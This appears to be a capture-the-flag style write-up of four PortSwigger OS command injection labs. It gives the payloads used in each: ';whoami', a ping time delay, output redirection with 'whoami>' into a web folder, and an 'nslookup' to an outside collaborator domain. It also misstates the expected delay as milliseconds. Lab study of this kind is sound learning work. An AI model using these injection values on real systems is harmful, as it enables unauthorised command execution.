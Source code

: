 ## OS command injection, simple case

The command injection vulnerability is in the check stock request

![image1](/images/portswigger-oscominjection-simplecase/portswigger-oscominjection-simplecase1.png)

And this is the request

![image2](/images/portswigger-oscominjection-simplecase/portswigger-oscominjection-simplecase2.png)

At the end, add `;whoami` to get command injection

![image3](/images/portswigger-oscominjection-simplecase/portswigger-oscominjection-simplecase3.png)

<br/>

## Blind OS command injection with time delays

First intercept the request when you submit feedback

![image1](/images/portswigger-lab-blind-os-command-injection-with-time-delays/portswigger-lab-blind-os-command-injection-with-time-delays1.png)

And the request: 

![image2](/images/portswigger-lab-blind-os-command-injection-with-time-delays/portswigger-lab-blind-os-command-injection-with-time-delays2.png)

I takes 112 miliseconds

![image3](/images/portswigger-lab-blind-os-command-injection-with-time-delays/portswigger-lab-blind-os-command-injection-with-time-delays3.png)

Now change add to the `&email=` the payload `||ping+-c+10+127.0.0.1` if it takes 9-10 miliseconds it's vulnerable

![image4](/images/portswigger-lab-blind-os-command-injection-with-time-delays/portswigger-lab-blind-os-command-injection-with-time-delays4.png)

![image5](/images/portswigger-lab-blind-os-command-injection-with-time-delays/portswigger-lab-blind-os-command-injection-with-time-delays5.png)


<br/>

## Blind OS command injection with output redirection

First intercept the requests when you submit feedback

![image1](/images/portswigger-blind-os-command-injection-with-output-redirection/portswigger-blind-os-command-injection-with-output-redirection1.png)

![image2](/images/portswigger-blind-os-command-injection-with-output-redirection/portswigger-blind-os-command-injection-with-output-redirection2.png)

Now change the email parameter to `&email=||whoami>/var/images/whoami.txt||`

![image3](/images/portswigger-blind-os-command-injection-with-output-redirection/portswigger-blind-os-command-injection-with-output-redirection3.png)

Go to the home page and refresh the webpage intercepting the requests, and save the one that loads an image

![image4](/images/portswigger-blind-os-command-injection-with-output-redirection/portswigger-blind-os-command-injection-with-output-redirection4.png)

Change the filename to `?filename=whoami.txt`

![image5](/images/portswigger-blind-os-command-injection-with-output-redirection/portswigger-blind-os-command-injection-with-output-redirection5.png)


<br/>

## Blind OS command injection with out-band  interaction

Intercept the request when you submit feedback

![image1](/images/portswigger-blind-os-command-injection-with-out-of-band-interaction/blind-os-command-injection-with-out-of-band-interaction1.png)

![image2](/images/portswigger-blind-os-command-injection-with-out-of-band-interaction/blind-os-command-injection-with-out-of-band-interaction2.png)

Change the email parameter to `&email=||nslookup+burpcollaborator.net||` this will cause a DNS lookup to that domain

![image3](/images/portswigger-blind-os-command-injection-with-out-of-band-interaction/blind-os-command-injection-with-out-of-band-interaction3.png)

